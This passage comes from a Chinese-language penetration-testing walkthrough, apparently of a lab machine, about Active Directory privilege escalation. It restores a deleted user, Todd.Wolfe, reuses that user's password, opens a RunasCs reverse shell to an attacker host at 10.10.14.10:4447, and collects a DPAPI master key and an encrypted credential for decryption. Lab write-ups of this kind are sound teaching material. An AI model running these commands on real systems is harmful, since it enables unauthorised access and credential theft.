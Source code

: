   
Todd.Wolfe 被恢复成功，从"Deleted Objects"对象中移除  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRwu8w8iahINFicqn3DLCLVTC0wCVmdVp7VUEVfXF3dKjPbBbtGOKEhbFg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
excel 文件中有 Todd.Wolfe 的密码，现在可以继续用 runas 弹回它的 shell 了  

```
.\RunasCs.exe Todd.Wolfe N......14 cmd.exe -r 10.10.14.10:4447
```

### DPAPI  
  
上传 winpeas 收集一下可能的提权信息，没什么大的发现，有个 DPAPI 主密钥文件，但是没有加密的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRZ29m1eTpc0tQMRWlMHVibVh3I9NSBHUSDZz8DEZAxD6zQicUy8bVA8DA/640?wx_fmt=png&from=appmsg "null")  
  
  
Todd.Wolfe 的职位是
```
Second-Line Support Technician
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRTK0Jq24ykPuLjNbsAJiaXiaVibrOYR6lecOgic553JicCjAal3AHxBXjqXw/640?wx_fmt=png&from=appmsg "null")  
  
  
同时在 C 盘根目录有个 IT 文件夹，里面有个名为
```
Second-Line Support
```

  
的文件夹，继续翻文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRNlGYKUayNPmlu8lyWgAAdkPl9WibNvkibWXo4ic32E14F8fvW52ltnKFA/640?wx_fmt=png&from=appmsg "null")  
  
  
经过不断的翻找，在里面找到 DPAPI 主密钥文件和一个加密凭证，把他们拖回来解密一下  

```
# master key 文件
c:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88

# 加密的凭证
c:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3
```

  
PAPI 解密需要这几样东西  
- • 用户密码  
  
- • 用户 SID 值  
  
- • 主密钥文件  
  
- • 需要被解密的凭证文件  
  